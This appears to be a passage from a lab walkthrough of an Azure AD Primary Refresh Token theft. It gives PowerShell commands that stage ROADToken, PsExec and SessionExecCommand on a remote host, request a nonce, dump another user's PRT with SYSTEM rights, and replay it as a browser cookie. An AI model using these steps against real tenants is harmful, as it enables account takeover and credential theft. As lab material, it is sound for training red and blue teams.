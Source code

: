 To copy the tools using a PSSession we can use the following commands:

```powershell
Invoke-Command -Session $infradminsrv -ScriptBlock{mkdir c:\Users\Public\student4}

# Everything has to be in public to have write access
Copy-Item -ToSession $infradminsrv -Path ROADToken.exe -Destination c:\Users\Public\student4 –Verbose
Copy-Item -ToSession $infradminsrv -Path PsExec64.exe -Destination c:\Users\Public\student4 –Verbose
Copy-Item -ToSession $infradminsrv -Path SessionExecCommand.exe -Destination c:\Users\Public\student4 –Verbose
```

In order to gather the PRT we need a nonce that can be requested from any machine

```powershell
# Request Token
$TenantId = "{{ TenantId 2d50cb29-5f7b-48a4-87ce-fe75a941adb6 }}"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"
$Params = @{
    "URI"     = $URL
    "Method"  = "POST"
}
$Body = @{
    "grant_type" = "srv_challenge"
    }
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
```

Using the token we can dump the PRT token for a known user in a machine in which we have SYSTEM access (because SessionExecCommand requires SYSTEM privileges):

```powershell
# Run ROADToken.exe in the context of another user using SessionExecCommand.exe with the help of PsExec64.exe.
Invoke-Command -Session {{ PSSession $pssession }} -ScriptBlock{C:\Users\public\student4\PsExec64.exe -accepteula -s "cmd.exe" " /c C:\Users\public\student4\SessionExecCommand.exe {{ User MichaelMBarron }} C:\Users\public\student4\ROADToken.exe {{ Nonce AwAB... }} > C:\Users\public\student4\prt4.txt"}

# Retrieve the output
Invoke-Command -Session {{ PSSession $pssession }} -ScriptBlock{cat C:\Users\public\student4\prt4.txt}
```

Using this commmands we should obtain the `x-ms-RefreshTokenCredential` that is the PRT token and then we can use this token with any browser, first we need ot go to [https://login.microsoftonline.com/login.srf](https://login.microsoftonline.com/login.srf) and remove all the cookies from the browser

Then we create a `x-ms-RefreshTokenCredential` cookie and paste in it the prt token value, also remember to check HTTPOnly and Secure.

![Setting the cookie using chrome](imgs/20220714122437.png)
